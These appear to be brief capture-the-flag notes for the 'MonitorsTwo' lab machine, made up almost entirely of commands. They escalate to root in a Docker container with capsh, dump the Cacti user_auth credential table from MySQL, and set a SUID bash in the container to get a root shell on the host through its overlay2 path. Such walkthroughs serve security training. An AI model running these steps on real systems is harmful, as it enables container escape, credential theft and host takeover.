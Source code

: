 # MonitorsTwo writeups
### Review
docker priv
```
capsh --gid==0 --uid=0 --
```
run mysql command in socket
```
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth;"
```
priv host
```
# in docker
chmod u+s /bin/bash

# in host machine
findmnt
ls -al /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
```
